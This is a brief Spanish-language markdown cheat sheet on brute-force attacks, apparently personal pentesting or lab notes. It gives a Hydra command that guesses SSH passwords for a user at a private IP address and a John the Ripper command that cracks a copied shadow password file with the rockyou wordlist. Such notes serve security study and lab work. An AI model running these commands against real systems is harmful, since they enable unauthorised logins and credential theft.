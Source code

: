 ## FORCE BRUTE

### HYDRA

Fuerza bruta ssh
<pre>
hydra -l zeus -P passwords.txt ssh://192.168.168.225
</pre>

### JOHN

<pre>
john -w:/usr/share/wordlists/rockyou.txt shadow.bak
</pre>
